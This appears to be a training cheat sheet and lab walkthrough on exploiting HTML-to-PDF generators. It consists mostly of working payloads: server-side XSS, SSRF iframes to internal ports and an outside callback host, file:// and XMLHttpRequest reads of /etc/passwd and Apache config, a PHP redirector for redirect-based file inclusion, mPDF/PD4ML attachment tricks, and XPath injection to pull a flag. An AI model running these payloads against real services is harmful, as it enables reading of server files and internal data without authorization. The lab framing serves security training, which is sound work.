 # Exploitation of PDF Generation Vulnerabilities

All techniques assume user-controlled HTML is fed into the PDF generator.

## 1) JavaScript Code Execution (Server-Side XSS)

Test HTML rendering, then JavaScript execution:

```html
<b>bold-test</b>
<script>document.write('XSS-OK')</script>
```

Leak server file path via `window.location`:

```html
<script>document.write(window.location)</script>
```

Outputs often show `file:///.../tmp_wkhtmlto_pdf_XXXX.html` revealing server paths.

## 2) Server-Side Request Forgery (SSRF)

Force outbound requests by loading external resources:

```html
<img src="http://<your-oast-domain>/ssrf-img"/>
<link rel="stylesheet" href="http://<your-oast-domain>/ssrf-css">
<iframe src="http://<your-oast-domain>/ssrf-iframe"></iframe>
```

If iframe responses render in the PDF (non-blind SSRF), you can read internal endpoints:

```html
<iframe src="http://127.0.0.1:8080/api/users" width="800" height="500"></iframe>
```

## 3) Local File Inclusion (LFI)

### With JavaScript

```html
<script>
  function wrap(s){let out='';while(s.length){out+=s.slice(0,100)+'\n';s=s.slice(100);}return out}
  const x=new XMLHttpRequest();
  x.onload=()=>document.write(wrap(btoa(x.responseText)));
  x.open('GET','file:///etc/passwd');
  x.send();
</script>
```

### Without JavaScript

Direct tags (may be blocked):

```html
<iframe src="file:///etc/passwd" width="800" height="500"></iframe>
<object data="file:///etc/passwd" width="800" height="500"></object>
<portal src="file:///etc/passwd" width="800" height="500"></portal>
```

Redirect-based LFI (if `file://` blocked but redirects followed):

Server-side `redirector.php`:

```php
<?php header('Location: file://' . $_GET['url']); ?>
```

Payload:

```html
<iframe src="http://<your-server>/redirector.php?url=%2fetc%2fpasswd" width="800" height="500"></iframe>
```

## 4) Annotations / Attachments

Leverage library-specific features to attach local files.

- mPDF (older versions or enabled setting):

```html
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="LFI" />
```

- PD4ML:

```html
<pd4ml:attachment src="/etc/passwd" description="LFI" icon="Paperclip"/>
```

Consult documentation for the target library and version (see metadata identification).

## Notes

- Always sanitize and encode when testing in real apps; proof in controlled labs.
- Outbound network, `file://`, and JS execution are all configuration-dependent.
- For large/binary file exfil via JS, prefer base64 with line wrapping.

## Question 1 (lab walkthrough)

Goal: access an internal web app and exfiltrate the flag via PDF generator.

1) Add a new note; test HTML injection using `<b>test</b>`.
2) Only the Note body renders HTML → injection confirmed.
3) Enumerate internal ports (Apache) via LFI using JS:

```html
<script>
  const x=new XMLHttpRequest();
  x.onload=()=>document.write(this.responseText);
  x.open('GET','file:///etc/apache2/ports.conf');
  x.send();
</script>
```

- Discover internal app on port 8000.

4) Interact with internal app (non-blind SSRF via iframe):

```html
<iframe src="http://127.0.0.1:8000/" width="800" height="500"></iframe>
```

- Endpoints list shows `/users`.

5) Probe `/users` to find key locations:

```html
<iframe src="http://127.0.0.1:8000/users" width="800" height="500"></iframe>
```

- `admin` key path: `/users/adminkey.txt`.

6) Exfiltrate key via Server-Side XSS + file:// read:

```html
<script>
  const x=new XMLHttpRequest();
  x.onload=()=>document.write(this.responseText);
  x.open('GET','file:///users/adminkey.txt');
  x.send();
</script>
```

Answer: {hidden}

## Obtain the flag (skills assessment)

1) Visit root page, note PDF invoice generation and hint about an internal orders app.
2) Test fields for server-side execution:
   - Comment sanitized; try title via Burp.

- JS probe (in title):
```html
<script>document.write(window.location)</script>
```

3) Enumerate internal ports via Apache config (in title field):

```html
<script>
  const x=new XMLHttpRequest();
  x.onload=()=>document.write(this.responseText);
  x.open('GET','file:///etc/apache2/ports.conf');
  x.send();
</script>
```

4) SSRF to internal web app (port 8000) using iframe (in title):

```html
<iframe src="http://127.0.0.1:8000/" width="800" height="500"></iframe>
```

- The internal app exposes endpoints and an XML-backed `/` with `q` GET param.

5) Exfiltrate flag via XPath injection (iframe in title):

- Using contains on substring:
```html
<iframe src="http://127.0.0.1:8000/?q=INVALID or contains(.,'HTB')" width="800" height="500"></iframe>
```

- Alternative substring:
```html
<iframe src="http://127.0.0.1:8000/?q=INVALID or contains(.,'Flag')" width="800" height="500"></iframe>
```

- Or position-based selection:
```html
<iframe src="http://127.0.0.1:8000/?q=INVALID or position()=7" width="800" height="500"></iframe>
```

Answer: {hidden}
